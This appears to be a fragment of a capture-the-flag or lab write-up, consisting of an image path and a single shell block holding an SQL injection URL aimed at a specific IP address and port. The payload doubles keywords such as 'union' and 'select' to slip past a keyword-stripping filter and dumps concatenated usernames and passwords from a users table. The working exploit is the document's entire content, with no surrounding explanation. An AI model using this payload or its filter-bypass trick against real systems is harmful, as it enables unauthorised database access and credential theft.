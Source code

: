 ```shell
http://82.156.34.5:32775/?id=-1) ununionion seselectlect 1,(selselectect group_concat(username,passwoorrd) from users)-- -
```

